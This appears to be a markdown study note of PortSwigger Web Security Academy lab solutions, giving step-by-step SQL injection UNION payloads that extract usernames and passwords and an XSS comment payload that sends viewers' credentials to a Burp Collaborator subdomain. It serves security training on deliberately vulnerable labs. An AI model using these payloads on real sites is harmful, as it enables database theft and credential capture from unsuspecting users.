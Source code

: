 # Table of Contents
1. [Initial Access](#initial-access)
2. [Privilege Escalation](#privilege-escalation)
3. [System Access](#system-access)

# Initial Access

## SQL injection

### Lab: SQL injection UNION attack, retrieving data from other tables

1.  Use Burp Suite to intercept and modify the request that sets the product category filter.
2.  Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter: `'+UNION+SELECT+'abc','def'--`.
3.  Use the following payload to retrieve the contents of the `users` table: `'+UNION+SELECT+username,+password+FROM+users--`
4.  Verify that the application's response contains usernames and passwords.

### Lab: SQL injection UNION attack, retrieving multiple values in a single column

**Hint**

You can find some useful payloads on our [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).

1.  Use Burp Suite to intercept and modify the request that sets the product category filter.
2.  Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, only one of which contain text, using a payload like the following in the `category` parameter: `'+UNION+SELECT+NULL,'abc'--`
3.  Use the following payload to retrieve the contents of the `users` table: `'+UNION+SELECT+NULL,username||'~'||password+FROM+users--`
4.  Verify that the application's response contains usernames and passwords.

## Cross-Site Scripting (XSS)

### Lab: Exploiting cross-site scripting to capture passwords

1.  Using [Burp Suite Professional](https://portswigger.net/burp/pro), go to the Burp menu, and launch the [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client).
2.  Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
3.  Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:  
    `<input name=username id=username>  
    <input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{  
    method:'POST',  
    mode: 'no-cors',  
    body:username.value+':'+this.value  
    });">`  
    This script will make anyone who views the comment issue a POST request to `burpcollaborator.net` containing their username and password.